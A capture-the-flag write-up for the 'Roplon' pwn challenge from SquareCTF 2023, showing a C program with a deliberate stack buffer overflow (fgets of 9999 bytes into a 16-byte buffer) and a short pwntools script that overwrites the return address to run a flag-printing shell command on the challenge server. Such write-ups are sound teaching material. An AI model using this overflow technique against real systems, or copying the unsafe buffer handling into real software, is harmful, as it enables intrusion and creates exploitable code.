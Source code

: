```yaml
---
title: Roplon
type: writeup
date: 2023-11-17T20:00:00+02:00
description: Writeup for Roplon [SquareCTF 2023]
author: PineBel
tags:
- pwn
draft: false
---
```


### Challenge Description

I THINK that buffer is big enough, right?


### Solution

In the roplon.c file, we observe the invocation of several functions. Notably, two functions stand out: cat_flag, which assigns the command_buf to "cat flag.txt," and do_the_thing, which launches a shell with the command provided as an argument. Additionally, the program allows writing to a buffer. The program's vulnerability lies in a buffer of 16 bytes, but the fgets function permits writing up to 9999 bytes   .


```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

char command_buf[128];

char *copy_command_to_buf(char *command,  char *buf)
{
    strcpy(buf, command);
}

void cat_flag()
{
    copy_command_to_buf("cat flag.txt", command_buf);
}

void ls()
{
    copy_command_to_buf("ls -lh flag.txt", command_buf);
}

void shasum_flag()
{
    copy_command_to_buf("shasum flag.txt", command_buf);
}

void do_the_thing(char *the_thing)
{
    system(the_thing);
}

int main(void)
{
    puts("Welcome to the ROPL!");

    while (1)
    {
        puts("what thing would you like to do?\n1: ls -lh flag.txt\n2: shasum flag.txt");
        char choice[16];
        fgets(choice, 9999, stdin);
        if (choice[0] == '1')
        {
            ls();
            do_the_thing(command_buf);
        }
        else if (choice[0] == '2')
        {
            shasum_flag();
            do_the_thing(command_buf);
        }
        else
        {
            break;
        }
    }
}

```

Let's check the file protections:

```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified   Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   44 Symbols        No    0  2roplon

```

Given the absence of a canary and the lack of PIE, we can craft an exploit to overwrite the return address of the main function, enabling us to call cat_flag and do_the_thing.

```py

elf = pwn.ELF("./roplon")
p = elf.process()

cat_addr = elf.symbols['cat_flag']
sys_addr = elf.symbols['do_the_thing']

target = pwn.remote("184.72.87.9", 8007)

target.sendline(b"A"*24 + pwn.p64(cat_addr) + pwn.p64(sys_addr))
target.interactive()

```

#### Flag
After executing, we get the flag.

